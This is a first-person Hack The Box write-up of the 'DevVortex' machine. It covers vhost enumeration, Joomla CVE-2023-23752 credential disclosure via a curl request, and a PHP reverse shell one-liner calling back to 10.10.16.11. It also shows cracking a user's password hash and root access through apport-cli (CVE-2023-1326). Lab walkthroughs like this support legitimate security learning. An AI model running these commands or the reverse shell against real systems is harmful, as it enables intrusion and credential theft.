# DevVortex Writeup - by Thammanant Thamtaranon  
- DevVortex is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan, including version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.242`  
  
- To make things easier, I added `devvortex.htb` to my `/etc/hosts`.

## Scanning & Enumeration  
- I ran a directory scan using:  
  `dirsearch -u http://devvortex.htb`  
  
- Unfortunately, nothing interesting showed up here.  
- Next, I decided to check for virtual hosts with:  
  `ffuf -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
  
- This revealed a subdomain, `dev.devvortex.htb`, which I added to `/etc/hosts`.  
- Scanning the subdomain showed a Joomla administrator login page at `/administrator/`.  
  
- A quick peek at `README.txt` confirmed it was running Joomla 4.x.  


## Exploitation  
- Searching for Joomla 4.x vulnerabilities, I came across **CVE-2023-23752**, which allows unauthenticated information disclosure via the REST API.  
- I tested this by sending a crafted request:  
  `curl -s http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq`  
  
- To my luck, it returned admin credentials for user `lewis`.  
- Logging into Joomla as `lewis`, I navigated to the template editor and created a new `.php` file to test command execution by running `id`.  
  
- Visiting the file confirmed the command worked perfectly.  
  
- I swapped the command for a PHP reverse shell payload:  
  `<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'"); ?>`  
- This gave me a shell as `www-data`.  
  
- Checking `/etc/passwd`, I found another user: `logan`.  
  
- Using `lewis`’s database access, I connected to MySQL and dumped the users table, finding a hashed password for `logan`.  
  
- I cracked the hash with John the Ripper using the rockyou wordlist.  
  
- With the credentials, I SSH’d in as `logan` and captured the user flag.

## Privilege Escalation  
- Running `sudo -l` as `logan` showed I could execute `/usr/bin/apport-cli` as root.  
  
- A quick search led me to **CVE-2023-1326**, an exploit allowing root shell via `apport-cli`.  
- I crafted a dummy crash file and launched `apport-cli`. Pressing `V` to view the report and typing `!/bin/bash` gave me an interactive root shell.  
  
- Finally, I grabbed the root flag and completed the box.
